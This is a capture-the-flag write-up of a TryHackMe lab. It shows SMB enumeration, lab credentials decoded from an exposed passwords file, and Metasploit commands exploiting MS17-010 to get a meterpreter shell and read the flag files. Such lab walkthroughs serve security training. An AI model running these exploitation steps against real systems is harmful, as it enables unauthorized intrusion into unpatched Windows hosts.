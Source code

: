 # Relevant

https://tryhackme.com/room/relevant

Penetration Testing Challenge
> Difficulty: Medium 

## Analysis

**nmap scan**

![nmap](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/nmap.png)
![nmap1](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/nmap1.png)

hmmm

```
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
let's check port ***80*** first.

**gobuster**

let's start with directory listing [dir]

![gobuster](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/gobuster.png)

hmm, well nothing..
next is checking smbclient on port ***139,445***

**smbclient**

starting with listing [-L]

![smb](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/smb.png)

checking all shares, ***nt4wrksv*** was accessible with `--no-pass` and by listing directories, ***passwords.txt*** was found

![smb1](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/smb1.png)

cat passwords.txt ???
![smb2](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/smb2.png)
which is base64 encode, base64 -d returns

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```
further checking ***Bill*** isn't a valid user and ***Bob's*** password is wrong

![smb3](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/smb3.png)

let's further enum smb

**enum smb**

let's start with nmap scripts

```
nmap --script "safe or smb-enum-*" -p 445 10.10.188.250
```

![step2](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/step2.png)

woow, seems vulnerable to **CVE-2017-0143** ***smb-vuln-ms17-010***, let's check further for vulnerability with metasploit scanner "smb_ms17_010"

```
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.10.188.250
run
```
![step2_1](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/step2_1.png)

**LIKELY VULNERABLE** lesss gooo for exploitation......



## Exploitation

***Analysis: Vulnerable to MS17-010***
**solution**

let's use metasploit smb "ms17_010_psexec" exploit

```
use exploit/windows/smb/ms17_010_psexec
set LHOST 10.18.37.12
set RHOSTS 10.10.188.250
run
```
![step2_2](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/step2_2.png)

...and we got the meterpreter session, let's just simply switch to cmd.exe

```
execute -f cmd.exe -i -H
whoami
```
![step2_3](https://raw.githubusercontent.com/deathpicnic/CTF-writeups/main/files/Relevant/step2_3.png)

for flags...

```
more C:\Users\Bob\Desktop\user.txt
more C:\Users\Administrator\Desktop\root.txt
```

***it's the END***
